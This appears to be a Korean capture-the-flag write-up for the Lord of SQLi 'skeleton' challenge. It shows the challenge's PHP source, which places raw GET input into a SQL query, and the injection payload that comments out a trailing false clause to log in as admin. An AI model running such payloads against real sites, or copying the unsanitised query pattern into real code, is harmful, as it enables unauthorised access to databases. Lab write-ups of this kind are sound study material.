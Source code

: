 ```yaml
---
layout: post
title: "LoS skeleton"
author: "isanghyeon"
tags: wargame
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **skeleton** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/vampire_e3f1ef853da067db37f342f3a1881156.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
- #### Solve Conditions
> ```php
> if($result['id'] == 'admin') solve("skeleton"); 
> ```

|query|parms1|parms1|
|:--:|:--:|:--:|
|select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0|id='guest'|pw='{$_GET[pw]}'|

특정 query가 삽입되었을 때 반환 array 의 'id' 인덱스의 값이 'admin'일 경우 solve 된다.  
또한, ``` and 1=0 ``` 의 구문으로 어떤 query가 삽입되어도 거짓이 되기 때문에 주석처리로 해당 구문을 삭제한다.  
문제 풀이에 사용된 예시 query는 다음과 같다.  
```sql
sselect id from prob_skeleton where id='guest' and pw='' or id='admin'#' and 1=0
```
<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/skeleton |  |